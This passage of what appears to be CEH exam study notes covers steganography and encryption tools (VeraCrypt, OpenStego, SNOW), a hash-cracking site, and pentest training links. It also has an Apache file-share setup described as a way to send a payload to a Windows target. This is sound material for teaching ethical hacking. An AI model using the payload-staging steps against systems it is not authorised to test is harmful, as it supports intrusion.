    <summary>VeraCrypt</summary>
      
  ## VeraCrypt 

  
  <img src = "/IMG/VeraCrypt/VC1.png"/>
  <img src = "/IMG/VeraCrypt/VC2.png"/>
  <img src = "/IMG/VeraCrypt/VC3.png"/>
  <img src = "/IMG/VeraCrypt/VC4.png"/>
  <img src = "/IMG/VeraCrypt/VC5.png"/>
  <img src = "/IMG/VeraCrypt/VC6.png"/>
  <img src = "/IMG/VeraCrypt/VC7.png"/>
  <img src = "/IMG/VeraCrypt/VC8.png"/>
  <img src = "/IMG/VeraCrypt/VC9.png"/>
  <img src = "/IMG/VeraCrypt/VC10.png"/>
  <img src = "/IMG/VeraCrypt/VC11.png"/>
  <img src = "/IMG/VeraCrypt/VC12.png"/>
  <img src = "/IMG/VeraCrypt/VC13.png"/>
  <img src = "/IMG/VeraCrypt/VC14.png"/>
  <img src = "/IMG/VeraCrypt/VC15.png"/>
  <img src = "/IMG/VeraCrypt/VC16.png"/>
  <img src = "/IMG/VeraCrypt/VC17.png"/>
  <img src = "/IMG/VeraCrypt/VC18.png"/>
  
</details> 

<details>
    <summary>BCTextEncoded</summary>
  
  ## BCTextEncoded
    
  <img src = "/IMG/BCTextEncoded/BCTE1.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE2.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE3.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE4.png"/>
    
  <img src = "/IMG/BCTextEncoded/BCTE5.png"/>

  <img src = "/IMG/BCTextEncoded/BCTE6.png"/>


</details>

<details>
    <summary>Keywords</summary>
  
  ## Keywords
  
  
  * Img hidden      - Openstego
  * .hex            - Cryptool
  * Whitespace      - SNOW
  * MD5             - Hashcalc & MD5 Calculator
  * Encoded         - BCTexteditor
  * Volume & mount  - Veracrypt

</details>

# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

  ## Course
  
* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [hark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  

<details>
  <summary>Useful Links</summary>
  
## Links
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>






